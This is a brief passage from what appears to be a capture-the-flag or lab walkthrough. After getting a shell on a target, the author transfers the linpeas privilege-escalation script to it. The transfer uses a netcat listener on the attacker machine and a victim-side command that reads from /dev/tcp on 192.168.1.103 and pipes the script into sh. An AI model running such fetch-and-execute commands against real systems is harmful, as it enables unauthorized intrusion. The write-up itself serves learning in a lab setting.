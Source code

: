 ![grimme-the-shell](./assets/grimmie-user-ssh.png)

Next I need to use linpeas for privilege escalation

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh`

Then I use to run sh on target without curl

```
sudo nc -q 5 -lvnp 9999 < linpeas.sh #Host
cat < /dev/tcp/192.168.1.103/9999 | sh #Victim
```

![linpeas](./assets/linpease.png)
